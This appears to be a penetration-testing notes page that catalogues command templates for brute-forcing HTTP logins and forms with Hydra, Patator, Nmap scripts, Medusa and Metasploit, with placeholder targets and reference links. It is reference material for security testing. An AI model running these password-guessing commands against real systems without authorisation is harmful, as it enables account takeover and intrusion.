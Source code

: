# 04 - Brute Force

TODO: Provide more examples

## 01 - `GET` HTTP Method

### 1.1 - [[03 - Offensive Infrastructure/E - Setup Machine/0x02 - Offensive Tools/Password Cracking/Online/Hydra|Hydra]]

```
$ hydra -L users.lst -P passwords.lst http[s]-get <IP> [-s <PORT>]

$ hydra -L users.lst -P passwords.lst http-get://<IP>:[<PORT>][/path/to/URI]
```

### 1.2 - Patator

```
$ patator http_fuzz method=GET url=<URL> 0=passwords.lst header="Cookie: <cookie_session>" --threads=2 timeout=15 -x quit:fgrep!='<Error_message_response>',clen!='-1'
```

### 1.3 - Network Mapper

Brute force HTTP realm.

```
$ nmap -p 80,443,8000,8080,8443 --script http-brute --script-args http.useragent='<user_agent>' <IP>
```

### 1.4 - Metasploit

```
msf > use auxiliary/scanner/http/http_login
```

## 02 - `POST` HTTP Method

```
$ hydra -L users.txt -P passwords.txt http[s]-post <IP>[:<PORT>][/path/to/URI]

$ hydra -L users.txt -P passwords.txt http[s]-post://<IP>[:<PORT>][/path/to/URI]
```

## 03 - Form `GET` HTTP Method

### 3.1 - [[03 - Offensive Infrastructure/E - Setup Machine/0x02 - Offensive Tools/Password Cracking/Online/Hydra|Hydra]]

```
$ hydra -L users.txt -P passwords.txt http[s]-get-form <IP>[:<PORT>][/path/to/URI]

$ hydra -L users.txt -P passwords.txt http[s]-get-form://<IP>[:<PORT>][/path/to/URI]
```

### 3.2 - Medusa

HTTP login popup form

```
$ medusa -h <IP> -u <username> -P password.lst -M http -m DIR:/<URL_path>
```

## 04 - Form `POST` HTTP Method

### 4.1 - [[03 - Offensive Infrastructure/E - Setup Machine/0x02 - Offensive Tools/Password Cracking/Online/Hydra|Hydra]]

TODO: Provide every syntax of it's usage for hydra to brute force whatever type of http and provide an example of how to use it

```
$ hydra -L users.lst -P passwords.lst http[s]-form-post <URL_path>:<form parameters>:<condition string>[:<optional>:<optional>]
```

```
$ hydra -L users.lst -P passwords.lst http-form-post "/login.php:user=^USER^&pass=^PASS^:Incorrect Password" -vV -f <IP>
```

```
$ hydra -L users.lst -P passwords.lst http-form-post "/login.php:user=^USER^&pass=^PASS^:H=Cookie:<cookies_keys_and_values>:F=<invalid_response>"" -vV -f <IP>
```

### 4.2 - Network Mapper

Brute force HTTP Forms.

```
$ nmap -p 80,443,8000,8080,8443 --script http-form-brute --script-args http.useragent='<user_agent>' <IP>
```

## 05 - `PROXY` HTTP Method

### 5.1 - [[03 - Offensive Infrastructure/E - Setup Machine/0x02 - Offensive Tools/Password Cracking/Online/Hydra|Hydra]]

```
$ hydra -L users.lst -P passwords.lst http-proxy://<IP>:[<PORT>][/path/to/URI]
```

### 5.2 - Network Mapper

Brute force HTTP proxy server.

```
$ nmap -p 80,443,8000,8080,8443 --script http-proxy-brute --script-args http.useragent='<user_agent>' <IP>
```

## 06 - PROXY URLEnum HTTP Method

```
$ hydra -L users.lst -P passwords.lst http-proxy-urlenum://<IP>:[<PORT>][/path/to/URI]
```

## 07 - `HEAD` HTTP Method

```
$ hydra -L users.lst -P passwords.lst http[s]-head://<IP>:[<PORT>][/path/to/URI]
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/D - Webapp Pentesting/0x03 - Bypass Webapp Security/Web Application Firewall (WAF)/Helpers/User Agents]]

- [[Password Attacks|Webapp Pentesting: Password Attacks]]

### Hacking Articles

- [Hacking Articles: Nmap for Pentester Password Cracking](https://www.hackingarticles.in/nmap-for-pentester-password-cracking/)

### Penetration Testing Tools

- [Penetration Testing Tools: Medusa](https://en.kali.tools/?p=200)

### Manraj Bansal

- [Manraj Bansal: How to use Hydra to brute force login forms](https://www.manrajbansal.com/post/how-to-use-hydra-to-brute-force-login-forms)